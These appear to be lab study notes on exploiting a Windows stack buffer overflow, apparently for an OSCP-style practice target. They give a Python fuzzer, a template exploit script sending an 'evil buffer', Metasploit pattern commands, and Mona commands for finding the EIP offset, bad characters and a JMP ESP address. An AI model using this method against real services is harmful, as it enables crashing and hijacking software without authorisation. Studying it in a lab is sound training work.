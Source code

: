 Notes on Buffer Overflows

### Basic Notes 
Need to run Immunity Debugger as Admin.
Make sure it's running.

## Steps to Conduct a Buffer Overflow
1. Spiking
2. Fuzzing
3. Finding the Offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Finding the Right Module
7. Generating Shellcode


## Configure Mona
#### Set up working folder
```
!mona config -set workingfolder c:\mona\%p
```
### Python Fuzzer Script

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "Target IP Address"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```
  
##### Purpose of the Script
The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. We need to write down how many bytes it sends and add 400 to help with with the exploit.

##### After we know the value from the fuzzer, we can use Metasploit to create a cyclic pattern that we need for our exploit.
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l (The number of bytes from the Fuzzer.py script + 400) 
```

##### Purpose of the Script
The exploit script is used to crash the service and help find the EIP Offset.
  ### Python Exploit Script
  
```python 
import socket

ip = "10.10.165.171"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
When we have the payload from the patter_create.rb script, we copy that into the payload variable and run the exploit script again. We then need to use Mona to help finish finding the EIP Offset.
```
!mona findmsp -distance (The number of bytes from the Fuzzer.py script + 400) 
```

###
We need to update the exploit script.
```python
offset = (needs to be the EIP value we just found from the last step)
retn = "BBBB"
```

### Finding Bad Chars

Create Working Directory for Mona
```
!mona config -set workingfolder c:\mona%p
```

The following Mona command will generate a bytearray and exclude the null byte (\x00) by default. * Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).
```
!mona bytearray -b "\x00"
```

##### Purpose of the Script
The following python script can be used to generate a string of bad chars from \x01 to \xff:
### Python Bad Chars Script

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
Once we run this, we use the output and update the exploit.py script payload variable with this output. Then run the exploit.py script again and start removing bad characters. We do this using Mona
```
!mona compare -f C:\mona\oscp\bytearray.bin -a (ESP Address)
```
##### Mona Modules to find vuln path
```
!mona modules
```

##### Using Mona Modules to find ESP JMP
```
!mona find -s "\xff\xe4" -m {vuln path}
```
Add the value in reverse (little endian) in \x format in the payload. 
Then set a break point for the JMP ESP to make sure payload hits it.
